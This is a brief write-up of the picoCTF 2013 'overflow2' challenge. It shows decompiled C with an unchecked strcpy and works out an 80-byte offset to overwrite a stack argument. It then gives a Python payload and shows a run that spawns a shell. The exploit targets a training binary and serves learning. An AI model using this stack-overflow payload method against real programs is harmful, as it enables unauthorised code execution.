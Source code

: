 ### S0lv3d by H4yicl3

First i download source here :https://2013.picoctf.com/problems/overflow2-44e63640e033ff2b

then i use IDA to analysis the code
```c
void __cdecl __noreturn vuln(int a1, char *src)
{
  char dest; // [sp+10h] [bp-48h]@1

  strcpy(&dest, src);					//overflow dest by argv[1]
  dump_stack(&dest, 23, &a1);
  printf("win = %d\n", a1);
  if ( a1 == 1 )						//a1 = 1 we win
    execl("/bin/sh", "sh", 0);
  else
    puts("Sorry, you lose.");
  exit(0);
}
```

so we need overflow the dest like overflow1 program
try to find the offset between dest and a1
```
-00000048 dest            db ?
+00000008 arg_0           dd ?
```

offset = 0x48(dest)-0x8(v3) = 0x50(hex)=80(dec)
the python script to change v3 become 1 look like
```python
padding ="A"*80
padding +="\x01"
print padding
```

try run it
```
./overflow2 $(python overflow2.py)
Stack dump:
0xffdae7a8: 0x000003e8
0xffdae7a4: 0xffdaf85a (second argument)
0xffdae7a0: 0x00000001 (first argument)
0xffdae79c: 0x41414141 (saved eip)
0xffdae798: 0x41414141 (saved ebp)
0xffdae794: 0x41414141
0xffdae790: 0x41414141
0xffdae78c: 0x41414141
0xffdae788: 0x41414141
0xffdae784: 0x41414141
0xffdae780: 0x41414141
0xffdae77c: 0x41414141
0xffdae778: 0x41414141
0xffdae774: 0x41414141
0xffdae770: 0x41414141
0xffdae76c: 0x41414141
0xffdae768: 0x41414141
0xffdae764: 0x41414141
0xffdae760: 0x41414141
0xffdae75c: 0x41414141
0xffdae758: 0x41414141
0xffdae754: 0x41414141
0xffdae750: 0x41414141 (beginning of buffer)
win = 1
$ whoami
hayicle
$ 
```

WELL done !!